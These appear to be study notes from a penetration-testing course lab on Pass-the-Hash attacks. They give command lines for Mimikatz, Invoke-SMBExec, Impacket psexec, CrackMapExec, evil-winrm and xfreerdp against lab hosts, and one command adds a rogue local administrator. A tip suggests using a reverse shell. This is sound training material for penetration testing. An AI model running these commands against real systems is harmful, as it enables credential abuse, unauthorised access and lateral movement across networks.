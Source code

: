 # Pass the Hash with Mimikatz (Windows)
The first tool we will use to perform a Pass the Hash attack is [Mimikatz](https://github.com/gentilkiwi). Mimikatz has a module named sekurlsa::pth that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

1) `/user` - The user name we want to impersonate.
2) `/rc4` or `/NTLM` - NTLM hash of the user's password.
3) `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
4) `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

**Pass the Hash from Windows Using Mimikatz:**
```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

# Pass the Hash with PowerShell Invoke-TheHash (Windows)
Another tool we can use to perform Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have **administrative** rights on the target computer. 

When using `Invoke-TheHash`, we have two options: **SMB** or **WMI** command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

1) Target - Hostname or IP address of the target.
2) Username - Username to use for authentication.
3) Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
4) Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
5) Command - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

Following example command on powershell will create user and add it to local administrator command:
```bash
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/e08a278a-ad9b-49bd-8d3d-287ebef07549)

## Idea !
We can also use powershell reverse shell by base64, for that we just need to specify command after `-Command` flag

# Pass the Hash with Impacket (Linux)

**Pass the Hash with Impacket PsExec:**
```bash
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/6a425769-4131-4201-9f4a-767c994a5dcf)

**Pass the Hash with CrackMapExec (Linux):**
```bash
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
## Tip !

_If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. This method is helpful if we obtain a local administrator hash by dumping the local `SAM database` on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see `Pwn3d!`, it means that the user is a local administrator on the target computer. We can use the option `-x` to execute commands._

# Pass the Hash with evil-winrm (Linux)
```bash
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

# Pass the Hash using RDP
```bash
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```
